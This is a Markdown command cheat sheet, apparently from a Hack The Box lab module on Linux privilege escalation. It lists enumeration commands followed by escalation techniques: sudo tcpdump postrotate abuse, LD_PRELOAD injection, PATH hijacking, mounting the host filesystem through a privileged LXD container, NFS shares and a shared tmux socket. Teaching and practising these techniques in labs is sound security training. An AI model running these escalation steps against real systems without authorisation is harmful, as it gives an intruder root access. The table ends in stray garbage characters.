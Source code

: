 | **Command** | **Description** |
| --------------|-------------------|
| `ssh htb-student@<target IP>` | SSH to lab target |
| `ps aux \| grep root` | See processes running as root |
| `ps au` | See logged in users |
| `ls /home` | View user home directories |
| `ls -l ~/.ssh` | Check for SSH keys for current user |
| `history` | Check the current user's Bash history |
| `sudo -l` | Can the user run anything as another user? |
| `ls -la /etc/cron.daily` | Check for daily Cron jobs |
| `lsblk` | Check for unmounted file systems/drives |
| `find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null` | Find world-writeable directories |
| `find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null` | Find world-writeable files |
| `uname -a` | Check the Kernel versiion |
| `cat /etc/lsb-release ` | Check the OS version |
| `gcc kernel_expoit.c -o kernel_expoit` | Compile an exploit written in C |
| `screen -v` | Check the installed version of `Screen` |
| `./pspy64 -pf -i 1000` | View running processes with `pspy` |
| `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null` | Find binaries with the SUID bit set |
| `find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null` | Find binaries with the SETGID bit set |
| `sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root` | Priv esc with `tcpdump` |
| `echo $PATH` | Check the current user's PATH variable contents |
| `PATH=.:${PATH}` | Add a `.` to the beginning of the current user's PATH |
| `find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null` | Search for config files |
| `ldd /bin/ls` | View the shared objects required by a binary |
| `sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart` | Escalate privileges using `LD_PRELOAD` |
| `readelf -d payroll  \| grep PATH` | Check the RUNPATH of a binary |
| `gcc src.c -fPIC -shared -o /development/libshared.so` | Compiled a shared libary |
| `lxd init` | Start the LXD initialization process |
| `lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine` | Import a local image |
| `lxc init alpine r00t -c security.privileged=true` | Start a privileged LXD container |
| `lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true` | Mount the host file system in a container |
| `lxc start r00t` | Start the container |
| `showmount -e 10.129.2.12` | Show the NFS export list |
| `sudo mount -t nfs 10.129.2.12:/tmp /mnt` | Mount an NFS share locally |
| `tmux -S /shareds new -s debugsess` | Created a shared `tmux` session socket |
| `./lynis audit system` | Perform a system audit with `Lynis` |h87y666666666666
